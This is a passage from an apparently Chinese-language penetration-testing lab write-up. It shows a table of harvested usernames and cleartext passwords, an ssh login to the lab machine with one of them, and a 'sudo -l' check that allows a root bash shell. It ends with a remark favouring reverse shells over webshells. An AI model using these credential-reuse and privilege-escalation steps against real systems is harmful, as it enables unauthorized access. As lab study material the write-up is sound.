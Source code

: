 |账号(邮箱)|密码|是否为admin|
|----|----|----|
|brian|my2cents|True|
|john|transformersrule|True|
|alice|turtles77|True|
|ruby|?|True|
|leon|qwer1234|True|
|julia|madrid|True|

## ssh 登录

把已知的所有秘钥排列组合尝试登录 ssh:

根据回显重新组织一下指令:

```bash
sudo ssh brian@192.168.170.154 -oHostKeyAlgorithms=ssh-rsa -p 22
```

输入 `my2cents` 登录:

![4-1.png](4-1.png)

`sudo -l` 发现能直接以 root 身份启动 bash:

![4-2.png](4-2.png)

靶机的难度不算大, 但是攻击链还是比较完整的。这次主要踩的坑是, 反弹 shell 渗透优先级应当大于 webshell。